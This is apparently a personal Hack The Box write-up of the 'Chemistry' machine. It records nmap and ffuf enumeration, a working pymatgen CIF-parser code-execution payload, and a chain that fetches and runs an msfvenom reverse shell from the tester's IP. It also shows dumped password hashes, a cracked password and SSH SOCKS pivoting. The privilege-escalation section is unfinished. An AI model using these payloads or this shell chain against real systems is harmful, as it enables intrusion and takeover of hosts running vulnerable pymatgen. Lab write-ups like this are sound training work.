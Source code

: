 ```yaml
---
tags:
  - HTB
  - Linux
  - Seasonal
creation date: 2018-09-29
Date Completed: 2024-08-24
CVEs: 
URL: 
IP: 10.129.225.128
---
```

## Information Gathering
### Nmap (Ports/Services)
```
sudo nmap -sT -sV -sC -O -p- -T4 --min-rate=1000 $IP  
```

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
|     Date: Fri, 25 Oct 2024 17:30:26 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 719
|     Vary: Cookie
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Chemistry - Home</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <div class="container">
|     class="title">Chemistry CIF Analyzer</h1>
|     <p>Welcome to the Chemistry CIF Analyzer. This tool allows you to upload a CIF (Crystallographic Information File) and analyze the structural data contained within.</p>
|     <div class="buttons">
|     <center><a href="/login" class="btn">Login</a>
|     href="/register" class="btn">Register</a></center>
|     </div>
|     </div>
|     </body>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>

```

### ffuf (Directories/Subdomain/Files)
```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt:FUZZ -u http://10.129.225.128:5000/FUZZ -c
```

```session
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt:FUZZ -u http://10.129.225.128:5000/FUZZ -c
```

`-recursion -recursion-depth 1`

When raft fails
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://10.129.225.128:5000/FUZZ -c
```
## Foothold

https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f

this worked:
```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget http://10.10.15.64:8000/test");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

now to find a payload for a reverse shell 🙂

```
msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.15.64 lport=4444 -f elf > shell
```

```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("wget http://10.10.15.64:8000/shell");0,0,0'
```


```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("chmod +x shell");0,0,0'
```

```
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("./shell");0,0,0'
```

## Internal Enumeration

![[Pasted image 20241025132412.png]]

MyS3cretCh3mistry4PP

```
sqlite3
.open database.db
.dump
```
![[Pasted image 20241025133825.png]]
admin:2861debaf8d99436a10ed6f75a252abf
app:197865e46b878d9e74a0346b6d59886a
'rosa','63ed86ee9f624c7b14f1d4f43dc251a5');
'robert','02fcf7cfc10adc37959fb21f06c6b467');
'jobert','3dec299e06f7ed187bac06bd3b670ab2');
INSERT INTO user VALUES(6,'carlos','9ad48828b0955513f7cf0f7f6510c8f8');
INSERT INTO user VALUES(7,'peter','6845c17d298d95aa942127bdad2ceb9b');
INSERT INTO user VALUES(8,'victoria','c3601ad2286a4293868ec2a4bc606ba3');
INSERT INTO user VALUES(9,'tania','a4aa55e816205dc0389591c9f82f43bb');
INSERT INTO user VALUES(10,'eusebio','6cad48078d0241cca9a7b322ecd073b3');
INSERT INTO user VALUES(11,'gelacia','4af70c80b68267012ecdac9a7e916d18');
INSERT INTO user VALUES(12,'fabian','4e5d71f53fdd2eabdbabb233113b5dc0');
INSERT INTO user VALUES(13,'axel','9347f9724ca083b17e39555c36fd9007');
INSERT INTO user VALUES(14,'kristel','6896ba7b11a62cacffbdaded457c6d92');
INSERT INTO user VALUES(15,'hacker','6a204bd89f3c8348afd5c77c717a097a');

cat app.py
![[Pasted image 20241025134208.png]]

```
hashcat -m 0 rosa ~/share/kali_backup/tools/rockyou.txt
su rosa
unicorniosrosados
```

![[Pasted image 20241026082910.png]]

![[Pasted image 20241026082932.png]]

```
ssh -D 9050 rosa@10.129.225.128
proxychains firefox http://127.0.0.1:8080
```

![[Pasted image 20241026083020.png]]

![[Pasted image 20241026083159.png]]

# Priv Esc
## Linpeas

nothing:
![[Pasted image 20241026090137.png]]

![[Pasted image 20241026090308.png]]

nothing:
![[Pasted image 20241026090408.png]]
nothing:
![[Pasted image 20241026090504.png]]
false:
![[Pasted image 20241026091937.png]]

proxychains4 dirb http://127.0.0.1:8080/

proxychains4 curl http://127.0.0.1/8080